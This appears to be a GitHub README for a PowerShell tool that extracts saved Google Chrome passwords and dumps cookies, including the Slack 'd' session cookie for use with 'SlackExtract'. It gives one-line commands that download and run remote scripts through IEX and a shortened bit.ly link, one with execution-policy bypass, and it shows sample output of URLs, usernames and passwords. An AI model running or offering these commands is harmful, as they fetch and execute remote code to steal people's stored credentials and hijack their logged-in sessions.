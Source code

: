 Note: Most of this code comes from https://github.com/et0x/Get-ChromePasswords, I've only mildly tweeked it and added in cookie dumping.

# Get-ChromePasswords
```PowerShell
.Synopsis
  Quickly retrieve Google Chrome passwords using powershell (please note this creates sqlite assemblies in your temp directory)

.PARAMETER Path
  
  The optional path to a non-standard database location for the Google Chrome Login Data database.  Generally found at '<APPDATA>\Local\Google\Chrome\Default\Login Data'

.EXAMPLE
  PS> .\Get-ChromePasswords

  Url                                                                                                    Username                  Password
  ---                                                                                                    --------                  --------
  https://accounts.google.com/signin/challenge/sl/password                                               user1                     password
  ...
```

## Quick mode...

```PowerShell
  C:\> powershell -exec bypass -c "IEX((new-object net.webclient).downloadstring('https://bit.ly/2OMBArT'));Get-ChromeCreds"
```

## Just pull "d" Cookie for use with SlackExtract...

```PowerShell
IEX((new-object net.webclient).downloadstring('https://raw.githubusercontent.com/clr2of8/Get-ChromePasswords/master/Get-CC.ps1'));Get-CC -SE
```

